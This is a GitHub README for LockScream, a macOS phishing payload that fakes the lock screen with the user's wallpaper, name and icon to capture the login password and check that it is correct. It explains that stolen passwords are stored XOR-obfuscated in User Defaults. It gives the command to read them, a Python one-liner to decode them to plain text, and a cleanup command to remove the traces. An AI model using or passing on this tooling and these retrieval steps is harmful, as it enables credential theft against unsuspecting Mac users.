 <img align="center" src="https://gist.github.com/n0ncetonic/bf506d5f6c979c9445095f30de6d618f/raw/915629750edb584884025ea846c9b4a32653c636/LockScream_512.png">

# LockScream
macOS Client-Side Phishing lock screen payload.

Emulates the macOS lock screen by dynamically determining a user's wallpaper, username, and user icon. Makes use of Core Services and Collaboration Services to verify entered credentials before allowing the program to close.

[[ TODO : Write a better Readme ]] 

## Where are the creds ?!
At the moment LockScream uses `User Defaults` to store credentials entered by the user.  
When compiling LockScream the bundle identifier can be changed from `com.blacksun.research.labs.LockScream` to any bundle identifier desired. The bundle identifier should be noted as it is important for retrieving user credentials later. 

For the sake of example, the default value of `com.blacksun.research.labs.LockScream` will be used and commands should be modified appropriately should you use a different bundle identifier.

```
$ defaults read com.blacksun.research.labs.LockScream
{
  crTkgKENXxuWDk3 = "MQs7Bx4lPRciFAMd2BAoCU0EGcl1ZZgY="
}
```

The command above returns a key-value pair in which a randomly generated string is used as the key and the value is a base64 encoded string.  
The secret to converting this key-value pair into a user's plain-text password is to first base64 decode the value to get a data blob. The key is also conveniently used as the key used to XOR the password and can be used to turn the data blob back into a plain-text password ready for use.

A simple PoC oneliner for decrypting the stored password is provided below with no guarantee of compatibility with any version of macOS outside of 10.14

```
$ enc="Base64 String From defaults read Command";key="Key from defaults read Command"; python -c "from itertools import izip,cycle;import base64;data = base64.decodestring(\"$enc\");xored = ''.join(chr(ord(x) ^ ord(y)) for (x,y) in izip(data,cycle(\"$key\")));print xored"
```

If you want to clean up after retrieving the plain-text credential issue a  `defaults delete` command as follows

```
defaults delete com.blacksun.research.labs.LockScream
```


n0ncetonic. Blacksun Research Labs 2019
